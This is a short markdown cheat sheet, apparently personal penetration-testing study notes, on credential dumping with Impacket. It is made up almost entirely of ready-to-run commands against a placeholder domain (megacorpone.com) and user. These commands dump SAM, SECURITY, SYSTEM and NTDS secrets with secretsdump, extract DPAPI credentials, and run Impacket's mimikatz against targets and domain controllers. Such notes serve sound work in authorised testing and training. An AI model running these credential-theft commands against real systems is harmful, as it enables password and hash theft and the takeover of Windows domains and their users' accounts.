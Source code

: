 #credential-dumping #impacket-scripts

## Secrets Dump 

## In Kali: 

- impacket-secretsdump megacorpone.com/afsimmons:password@"Target IP Address"
-  impacket-secretsdump megacorpone.com/afsimmons:password@"Target IP Address" 

##  Dump SAM

- impacket-secretsdump megacorpone.com/afsimmons:password@"Target IP Address" -sam "SAM FILE OR HIVE" -security "SECURITY FILE OR HIVE" - system "SYSTEM FILE OR HIVE"
## Dump NTDS

- impacket-secretsdump megacorpone.com/afsimmons@"Target IP Address" -ntds /path/to/ntds/file

## DPAPI

- impacket-dpapi 

## System DPAPI Dump

Source: https://github.com/fortra/impacket/blob/755efbffc7bd54c9dcf33d7c5e04038801fd3225/examples/SystemDPAPIdump.py

python SystemDPAPIDump.py megacorpone.com/afsimmons:password@"IP ADDRESS" -creds

## MimiKatz

- impacket-mimikatz megacorpone.com/afsimmons:password@"IP ADDRESS"
- impacket-mimikatz -dc-ip "DC IP ADDRESS" -target-ip "TARGET IP ADDRESS" megacorpone.com/afsimmons:password
# Resources: 
- https://cheatsheet.haax.fr/windows-systems/exploitation/impacket/